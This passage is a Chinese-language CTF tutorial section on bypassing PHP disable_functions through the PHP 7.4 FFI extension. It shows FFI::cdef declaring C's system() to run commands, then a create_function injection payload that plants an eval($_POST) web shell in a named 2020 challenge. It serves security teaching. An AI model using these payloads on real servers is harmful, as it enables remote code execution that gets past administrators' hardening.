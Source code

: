 ### 2.11.1 使用条件

- Linux 操作系统
- PHP >= 7.4
- 开启了 FFI 扩展且 `ffi.enable=true`

### 2.11.2 原理简述

PHP 7.4 的 FFI（Foreign Function Interface），即外部函数接口，允许从用户在PHP代码中去调用C代码。

FFI的使用非常简单，只用声明和调用两步就可以。

首先我们使用 `FFI::cdef()` 函数在PHP中声明一个我们要调用的这个C库中的函数以及使用到的数据类型，类似如下：

```
$ffi = FFI::cdef("int system(char* command);");   # 声明C语言中的system函数
```

这将返回一个新创建的FFI对象，然后使用以下方法即可调用这个对象中所声明的函数：

```
$ffi ->system("ls / > /tmp/res.txt");   # 执行ls /命令并将结果写入/tmp/res.txt
```

由于system函数执行命令无回显，所以需要将执行结果写入到tmp等有权限的目录中，最后再使用 `echo file_get_contents("/tmp/res.txt");` 查看执行结果即可。

可见，当PHP所有的命令执行函数被禁用后，通过PHP 7.4的新特性FFI可以实现用PHP代码调用C代码的方式，先声明C中的命令执行函数或其他能实现我们需求的函数，然后再通过FFI变量调用该C函数即可Bypass disable_functions。

### 2.11.3 利用方法

下面，我们通过 [极客大挑战 2020]FighterFightsInvincibly 这道题来演示利用PHP 7.4 FFI来突破disable_functions的具体方法。

进入题目：

![image-20210525165048861](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/Web/bypass/Disable_functions/images_20210525165050.png)

查看源码发现提示：

![image-20210525165112463](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/Web/bypass/Disable_functions/images_20210525165113.png)

```
$_REQUEST['fighter']($_REQUEST['fights'],$_REQUEST['invincibly']);
```

可以动态的执行php代码，此刻应该联想到`create_function`代码注入：

```
create_function(string $args,string $code)
//string $args 声明的函数变量部分
//string $code 执行的方法代码部分
```

我们令 `fighter=create_function`，`invincibly=;}eval($_POST[whoami]);/*` 即可注入恶意代码并执行。

payload：

```
/?fighter=create_function&fights=&invincibly=;}eval($_POST[whoami]);/*
```
